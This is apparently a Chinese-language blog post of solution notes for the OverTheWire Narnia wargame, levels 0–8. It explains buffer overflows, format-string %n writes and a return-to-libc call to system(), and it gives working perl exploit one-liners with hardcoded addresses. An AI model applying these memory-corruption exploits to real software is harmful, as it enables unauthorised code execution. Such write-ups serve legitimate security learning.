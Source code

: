 ```yaml
---
title: Narnia
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

*   **Narnia0**  
    要改写内容很简单，20个填充字符加上0xdeadbeef，但问题是用perl输入后sh立刻就退出了……后来在网上搜了下，用cat可以读用户输入，然后输出通过管道送到sh那里  
    `(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"'; cat) | ./narnia0`  
*   **Narnia1**  
    只需要把shellcode放到环境变量里就可以了，而且inovke bash和sh都可以用
*   **Narnia2**  
    `strcpy`没检查
*   **Narnia3**  
    ofile是char[]，可写，所以我们用很长的ifile覆盖他：  
    <pre> ln -sf /etc/narnia_pass/narnia4 /tmp/nabla/tmp/nabla/pass/narnia/narnia3 `perl -e 'print "/."x11 . "/tmp/nabla" . "/tmp/nabla/pass"'` </pre>
*   **Narnia4**  
    把环境变量清空了，没关系，shellcode放argv[1]就行
*   **Narnia5**  
    用了`snprintf`，所以单纯的覆盖是不可能了。但存在format string
    不知道为什么，这次用perl的话位置参数不能用，估计是$的转义问题。没办法，是第9个参数，所以前8个也都用了:  
    `` /narnia/narnia5 `perl -e 'print "\x1c\xd7\xff\xff" . "%62x"x8 . "%n"'` ``  
*   **Narnia6**  
    这道题想复杂了，晕……
    首先是发现strcpy可以覆盖函数指针fp的值，于是由此可以跳到我们想要的地方；但还有一个限制，即最高位的byte不能是0xff。这样就只能return to libc了。而且此时的栈顶是一个我们提供的字符串。我想复杂了，想找一个`call $eax`或`jmp $eax`的，但后来在网上看，直接用`system()`就可以了。于是用gdb，print system得到其地址。
        
    还有一个微妙之处，是先strcpy下面的，再上面的。这样第二次strcpy就可以再覆盖掉第一次的。这点比较重要，因为给`system`的参数是下面的，而strcpy下面的时后面还会跟上`system`的地址。于是字符串`/bin/sh`要在第二次的strcpy写上去
        
    综上，命令为  
    <pre>/narnia/narnia6 `perl -e 'print "A"x8 . "\x50\xa2\xe6\xf7"'` "12345678/bin/sh"</pre>
*   **Narnia7**  
    和前面的一道题很像，还是snprintf的format string. 另外这里perl的$要用\\$来转义。
    在确定buffer是第几个参数时，我是用gdb看的，当然可以从代码直接算出来，注意`mov %esp, %ebp`后又push了两个，所以`sub $0xa0, %esp`后esp与ebp相距0xa8
*   **Narnia8**  
    这道题是一个byte一个byte地复制，可以修改返回地址。唯一要注意的是，由于src字符串保存在buffer的下方，所以要修改返回地址就必然要经过src，而我们要保证经过时src不变。具体地，先打印出src的地址，然后让src的内容在那个位置等于src的地址

    shellcode放在环境变量里了
